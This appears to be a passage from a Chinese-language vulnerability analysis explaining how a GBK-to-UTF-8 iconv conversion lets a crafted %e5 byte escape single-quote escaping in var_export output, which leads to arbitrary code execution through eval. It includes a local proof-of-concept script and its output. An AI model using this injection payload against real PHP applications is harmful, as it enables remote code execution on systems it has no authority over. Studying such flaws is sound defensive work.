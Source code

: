 ```php
                return modules\appdesign\models\iconv("GBK", "UTF-8", $value);
            }
            else {
                return $value;
            }
        }
    }
```

若想达成代码执行，则需要触发之中的eval，很幸运在默认的配置下是可以走到eval的，这里用了iconv函数将GBK转为UTF8，问题也就出在这里。錦的utf-8编码是0xe98ca6，它的gbk编码是0xe55c。传入的%e5与用来转义的单引号的\\，正好组成了这个汉字，从而导致我们的单引号逃逸出来，最终到达eval的任意代码执行。这也由于var\_export是用单引号包裹字符串的。下面是本地的一个测试：

```php
<?php
$value=array("page_total"=>null,"total_nums"=>null,"curnum"=>1,
"pagelimit"=>10,"open_mode"=>"0","activeTab"=>urldecode("%e5\%27.var_dump(11111));?>"),
"show_title"=>null,"show_dots"=>null,"speed"=>null,"data"=>[],"showPages"=>0,"data_sources"=>"serv_data");
$b=var_export($value, true);
var_dump($b);
$s_conv=iconv("GBK", "UTF-8",  $b.";");
if ($s_conv) {
    var_dump($s_conv);
    eval("return " . $s_conv);
}
```

结果如下：

```php
string(310) "array (
  'page_total' => NULL,
  'total_nums' => NULL,
  'curnum' => 1,
  'pagelimit' => 10,
  'open_mode' => '0',
  'activeTab' => '\\\'.var_dump(11111));?>',
  'show_title' => NULL,
  'show_dots' => NULL,
  'speed' => NULL,
  'data' =>
  array (
  ),
  'showPages' => 0,
  'data_sources' => 'serv_data',
)"
string(312) "array (
  'page_total' => NULL,
  'total_nums' => NULL,
  'curnum' => 1,
  'pagelimit' => 10,
  'open_mode' => '0',
  'activeTab' => '錦\\'.var_dump(11111));?>',
  'show_title' => NULL,
  'show_dots' => NULL,
  'speed' => NULL,
  'data' =>
  array (
  ),
  'showPages' => 0,
  'data_sources' => 'serv_data',
);"
int(11111)
```
